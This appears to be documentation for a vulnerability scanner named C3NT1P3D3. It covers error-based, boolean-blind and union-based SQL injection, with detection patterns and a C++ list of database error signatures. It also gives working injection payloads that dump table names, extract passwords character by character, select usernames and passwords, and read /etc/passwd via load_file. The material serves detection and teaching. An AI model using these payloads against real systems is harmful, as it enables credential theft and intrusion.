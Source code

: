 ## SQL Injection Types

### 1. Error-Based SQL Injection

**Technique:** Trigger database errors to extract information

**Example Payload:**
```sql
' OR 1=1 UNION SELECT NULL, table_name FROM information_schema.tables--
```

**Detection Pattern:**
- Database error messages in response
- Stack traces revealing database structure
- SQL syntax errors

**C3NT1P3D3 Detection:**
```cpp
std::vector<std::string> errorSignatures = {
    "SQL syntax",
    "mysql_fetch",
    "ORA-01756",
    "Microsoft OLE DB Provider",
    "PostgreSQL query failed",
    "SQLite3::SQLException"
};
```

### 2. Boolean-Based Blind SQL Injection

**Technique:** Infer data based on true/false responses

**Example Payloads:**
```sql
' AND 1=1--  (True condition - normal response)
' AND 1=2--  (False condition - different response)

' AND (SELECT LENGTH(password) FROM users WHERE id=1)>5--
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE id=1)='a'--
```

**Detection Pattern:**
- Response differs based on condition
- Content length variations
- HTTP status code changes

### 3. Union-Based SQL Injection

**Technique:** Combine results from multiple SELECT statements

**Example Payload:**
```sql
' UNION SELECT username, password, email FROM users--
' UNION SELECT NULL, version(), database()--
' UNION SELECT NULL, load_file('/etc/passwd'), NULL--
```
